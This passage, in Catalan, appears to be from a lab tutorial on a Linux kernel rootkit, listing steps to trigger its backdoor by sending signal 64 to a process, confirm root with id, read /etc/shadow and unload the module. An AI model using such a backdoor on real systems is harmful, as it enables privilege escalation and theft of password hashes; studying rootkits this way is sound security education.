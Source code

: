 14. Activem el nostre backdoor:

    ```sh
    sleep 120 &
    ```

15. Obtenim el id del procés sleep:

    ```sh
    ps | grep sleep
    ```

16. Enviem la senyal:

    ```sh
    kill -64 20005
    ```

17. Comprovem que ara tenim privilegis d'administrador:

    ```sh
    id
    ```

18. Comprovem que ara podem llegir el fitxer /etc/shadow:

    ```sh
    cat /etc/shadow
    ```

19. Desinstal·lem el nostre mòdul del kernel:

    ```sh
    rmmod rootkit
    ```
